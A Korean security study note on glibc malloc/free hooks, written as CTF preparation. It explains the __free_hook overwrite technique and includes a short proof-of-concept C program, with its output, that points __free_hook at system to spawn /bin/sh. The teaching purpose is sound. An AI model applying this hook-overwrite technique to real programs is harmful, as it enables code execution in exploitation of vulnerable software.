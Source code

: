 [[Memory Mitigation - RELRO]]
# 배경
- 훅, 훅킹
어떤 코드를 실행하려고 할 때, 다른 코드가 이를 낚아채 실행하는 것
함수에 훅을 심어서 함수의 호출을 모니터링 하거나, 함수에 기능을 추가할 수도 있고, 아니면 아예 다른 코드를 심어서 실행 흐름을 변조할 수도 있음
예를 들어, `malloc`과 `free`에 훅을 설치하면 소프트웨어에서 할당하고, 해제하는 메모리를 모니터링할 수 있음
이를 더욱 응용하면 모든 함수의 도입 부분에 모니터링 함수를 훅으로 설치하여 어떤 소프트웨어가 실행 중에 호출하는 함수를 모두 추적(Tracing)할 수도 있음

Glibc 2.33 이하 버전에서 libc 데이터 영역에는 `malloc()`과 `free()`를 호출할 때 함께 호출되는 훅(Hook)이 함수 포인터 형태로 존재
이 함수 포인터를 임의의 함수 주소로 오버라이트(Overwrite)하여 악의적인 코드를 실행

C언어에서 메모리의 동적 할당과 해제를 담당하는 함수로는 `malloc` , `free` , `realloc` 이 대표적, 모두 `libc.so` 에 구현되어 있음

```sh
$ readelf -s /lib/x86_64-linux-gnu/libc-2.27.so | grep -E "__libc_malloc|__libc_free|__libc_realloc"
   463: 00000000000970e0   923 FUNC    GLOBAL DEFAULT   13 __libc_malloc@@GLIBC_2.2.5
   710: 000000000009d100    33 FUNC    GLOBAL DEFAULT   13 __libc_reallocarray@@GLIBC_PRIVATE
  1619: 0000000000098ca0  1114 FUNC    GLOBAL DEFAULT   13 __libc_realloc@@GLIBC_2.2.5
  1889: 00000000000979c0  3633 FUNC    GLOBAL DEFAULT   13 __libc_free@@GLIBC_2.2.5
  1994: 000000000019a9d0   161 FUNC    GLOBAL DEFAULT   14 __libc_freeres@@GLIBC_2.2.5
```


`libc` 에는 이 함수들의 디버깅 편의를 위해 훅 변수가 정의되어 있음
`malloc` 함수는 `__malloc_hook` 변수의 값이 `NULL`이 아닌지 검사하고, 아니라면 `malloc`을 수행하기 전에 `__malloc_hook`이 가리키는 함수를 먼저 실행
이때, `malloc`의 인자는 훅 함수에 전달
같은 방식으로 `free`, `realloc`도 각각 `__free_hook`, `__realloc_hook`이라는 훅 변수를 사용

```c
// __malloc_hook
void *__libc_malloc (size_t bytes)
{
  mstate ar_ptr;
  void *victim;
  void *(*hook) (size_t, const void *)
    = atomic_forced_read (__malloc_hook); // malloc hook read
  if (__builtin_expect (hook != NULL, 0))
    return (*hook)(bytes, RETURN_ADDRESS (0)); // call hook
#if USE_TCACHE
  /* int_free also calls request2size, be careful to not pad twice.  */
  size_t tbytes;
  checked_request2size (bytes, tbytes);
  size_t tc_idx = csize2tidx (tbytes);
  // ...
}
```

섹션 헤더 정보를 참조하면 `libc.so` 의 `bss` 섹션에 포함됨을 알 수 있음
`bss` 섹션은 쓰기가 가능하므로 이 변수들의 값은 조작될 수 있음
```sh
$ readelf -S /lib/x86_64-linux-gnu/libc-2.27.so | grep -A 1 "\.bss" 
[35] .bss NOBITS 00000000003ec860 001ec860 
	0000000000004280 0000000000000000 WA 0 0 32
```

따라서 `malloc` , `free` , `realloc` 에는 각각에 대응되는 훅 변수가 존재하며, 앞서 설명한 바와 같이 이들은 `libc` 의 `bss` 섹션에 위치하여 실행 중에 덮어쓰는 것이 가능
또한, 훅을 실행할 때 기존 함수에 전달한 인자를 같이 전달해 주기 때문에 `__malloc_hook` 을 `system` 함수의 주소로 덮고, `malloc(“/bin/sh”)` 을 호출하여 셸을 획득하는 등의 공격이 가능

```c
// Name: fho-poc.c
// Compile: gcc -o fho-poc fho-poc.c

#include <malloc.h>
#include <stdlib.h>
#include <string.h>

const char *buf="/bin/sh";

int main() {
  printf("\"__free_hook\" now points at \"system\"\n");
  __free_hook = (void *)system;
  printf("call free(\"/bin/sh\")\n");
  free(buf);
}
```

실행결과
```sh
root@345d9a557d77:~/workspace# la
fho-poc  fho-poc.c
root@345d9a557d77:~/workspace# ./fho-poc 
"__free_hook" now points at "system"
call free("/bin/sh")
# la
/bin/sh: 1: la: not found
# ls
fho-poc  fho-poc.c
# ^C
# 
root@345d9a557d77:~/workspace# 
```

Full RLERO가 적용된 바이너리에도 라이브러리의 훅에는 쓰기 권한이 남아있기 때문에 이러한 공격을 고려해볼 수 있음

그러나 공격에 악용되기 쉽고, 훅은 힙 청크 할당(malloc)과 해제(free)가 다발적으로 일어나는 환경에서 성능에 악영향을 주기 때문에 보안과 성능 향상을 이유로 Glibc 2.34 버전부터 [제거](https://sourceware.org/pipermail/libc-alpha/2021-August/129718.html#:~:text=*%20The%20deprecated%20memory,malloc%20interposition%20library.)됨


# 예시1
[[Dreamhack - fho]]
